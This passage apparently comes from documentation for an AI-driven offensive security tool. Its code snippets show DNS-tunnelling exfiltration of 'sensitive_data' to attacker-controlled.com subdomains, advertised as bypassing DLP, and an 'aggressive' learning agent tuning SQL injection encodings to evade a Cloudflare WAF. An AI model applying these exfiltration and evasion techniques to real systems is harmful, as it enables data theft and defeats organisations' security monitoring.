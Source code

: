```python
encoded_chunks = exfil_config.prepare_data(sensitive_data)

# DNS queries generated:
# NFXHA2DPNVSW45A.attacker-controlled.com
# QMF4GS3LMJQXGZJ.attacker-controlled.com
# ONSWG4TFMRSXE5A.attacker-controlled.com

# Features:
# - Bypasses DLP systems
# - Uses legitimate DNS traffic
# - Randomized timing to avoid detection
```

### 🧠 **Adaptive Learning in Evasion**
```python
# How the ML engine improves evasion success rates
from cai.agents import adaptive_learning

# Learning from previous evasion attempts
learning_agent = adaptive_learning.AdaptiveLearningAgent(mode="aggressive")

# Historical data analysis
evasion_results = {
    "waf_type": "cloudflare",
    "payload_type": "sql_injection",
    "encoding_method": "double_url",
    "success_rate": 0.73,
    "detection_time": 2.3,
    "response_patterns": ["403 Forbidden", "Security Alert"]
}

# ML model learns optimal strategies
optimal_strategy = learning_agent.optimize_evasion_strategy(
    target_waf="cloudflare",
    attack_type="sql_injection",
    success_threshold=0.85
)

# Result: Recommends specific encoding combinations and timing
# that achieve 85%+ success rate against Cloudflare WAF
```

## 🔬 **Machine Learning in Action**

Napoleon's ML engine learns from every cybersecurity interaction:

```python
# Example: ML-enhanced vulnerability assessment
interaction_data = {
    'user_input': 'Scan web application for SQL injection vulnerabilities',
    'tools_used': ['sqlmap', 'nmap', 'nikto'],
    'response': 'Found 2 SQL injection points in login form',
    'success': True,
    'execution_time': 127.3,
    'target_info': 'Apache/2.4.41 MySQL backend'
}

# Napoleon automatically:
# 1. Extracts 43 numerical features from this interaction
# 2. Updates the training dataset with success/failure patterns
# 3. Retrains ML models when sufficient new data is available
# 4. Provides predictions for future similar assessments

# Next similar request gets ML-enhanced recommendations:
```